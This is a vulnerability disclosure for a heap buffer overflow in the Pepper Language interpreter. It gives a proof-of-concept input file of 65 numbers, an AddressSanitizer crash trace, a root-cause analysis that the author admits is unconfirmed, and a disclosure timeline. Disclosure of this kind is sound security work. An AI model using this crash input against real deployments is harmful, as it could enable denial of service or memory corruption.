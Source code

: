 # Heap Buffer Overflow in Pepper Language

[Pepper Language](https://github.com/dannyvankooten/pepper-lang) is a fast interpreted programming language for simplicity and verbosity. It is dynamically typed and supports garbage collection.

* Affected Version: Version 0.1.1 and before, Commit 961a5d9988c5986d563310275adad3fd181b2bb7 and before.
* Status: Unfixed; no any update since Feb 15, 2024.

## How to Reproduce (PoC)

Create a file with more than 65 numbers in a column. For example,

```vb
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
```

It would crash the compiled pepper language compiler `pepper`. The below is the result of crash with AddressSanitizer.

```vb
=================================================================
==319391==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x619000000980 at pc 0x5d0c243bf4f5 bp 0x7fff8342bf10 sp 0x7fff8342bf08
WRITE of size 4 at 0x619000000980 thread T0
    #0 0x5d0c243bf4f4 in add_constant /home/ch1keen/fuzz/pepper-lang/src/compiler.c:91:50
    #1 0x5d0c243bf4f4 in compile_expression /home/ch1keen/fuzz/pepper-lang/src/compiler.c:445:45
    #2 0x5d0c243bc551 in compile_statement /home/ch1keen/fuzz/pepper-lang/src/compiler.c:212:19
    #3 0x5d0c243bc28d in compile_program /home/ch1keen/fuzz/pepper-lang/src/compiler.c:180:15
    #4 0x5d0c243a82dc in run_script /home/ch1keen/fuzz/pepper-lang/src/pepper.c:129:12
    #5 0x5d0c243a82dc in main /home/ch1keen/fuzz/pepper-lang/src/pepper.c:161:9
    #6 0x768a81e2a1c9 in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16
    #7 0x768a81e2a28a in __libc_start_main csu/../csu/libc-start.c:360:3
    #8 0x5d0c242e8434 in _start (/home/ch1keen/fuzz/pepper-lang/bin/pepper+0x29434) (BuildId: b8341ebeb041c31389178ec76172705c296f6f5d)

0x619000000980 is located 0 bytes to the right of 1024-byte region [0x619000000580,0x619000000980)
allocated by thread T0 here:
    #0 0x5d0c2436be42 in __interceptor_malloc (/home/ch1keen/fuzz/pepper-lang/bin/pepper+0xace42) (BuildId: b8341ebeb041c31389178ec76172705c296f6f5d)
    #1 0x5d0c243c39fb in make_object_list /home/ch1keen/fuzz/pepper-lang/src/object.c:187:37
    #2 0x5d0c243b945d in compiler_new /home/ch1keen/fuzz/pepper-lang/src/compiler.c:37:20
    #3 0x5d0c243a82ce in run_script /home/ch1keen/fuzz/pepper-lang/src/pepper.c:128:30
    #4 0x5d0c243a82ce in main /home/ch1keen/fuzz/pepper-lang/src/pepper.c:161:9
    #5 0x768a81e2a1c9 in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16
    #6 0x768a81e2a28a in __libc_start_main csu/../csu/libc-start.c:360:3
    #7 0x5d0c242e8434 in _start (/home/ch1keen/fuzz/pepper-lang/bin/pepper+0x29434) (BuildId: b8341ebeb041c31389178ec76172705c296f6f5d)

SUMMARY: AddressSanitizer: heap-buffer-overflow /home/ch1keen/fuzz/pepper-lang/src/compiler.c:91:50 in add_constant
Shadow bytes around the buggy address:
  0x0c327fff80e0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c327fff80f0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c327fff8100: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c327fff8110: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c327fff8120: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x0c327fff8130:[fa]fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c327fff8140: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c327fff8150: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c327fff8160: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c327fff8170: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c327fff8180: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==319391==ABORTING
```

## Root Cause

The compiler structure have `scopes` variable, and it has a fixed size array that can have 64 `compiler_scope` structures.

```c
// src/compiler.h
struct compiler {
    struct object_list *constants;
    struct symbol_table *symbol_table;
    uint32_t scope_index;
    struct compiler_scope scopes[64];
};
```

When the Proof-of-Concept file is passed to the compiler, the file is lexed and parsed first. Each constants are converted to `compiler_scope` typed variables. But since the `compiler` structure can only store 64 `compiler_scope`s, more than 65 `compiler_scope`s in a file causes heap buffer overflow.

Note: Since maintainer did not respond to a security concern mail &mdash; See the timeline for reference &mdash; and the issue tab of the repository of pepper language is closed, it cannot be confirmed.

## Impact

Heap buffer overflow can attackers not only modify the content of other heap objects, which can be content of other constants in pepper, but also make attackers the program to execute arbitrary code.

## Disclosure Timeline

* 2025.04.26: Vulnerability report sent to the maintainer(hi@dvk.co).
* 2025.04.26: Reported to MITRE.
* 2025.07.25: Public Disclosure.
* 2025.08.13: MITRE assigned [CVE-2025-50360](https://www.cve.org/CVERecord?id=CVE-2025-50360).
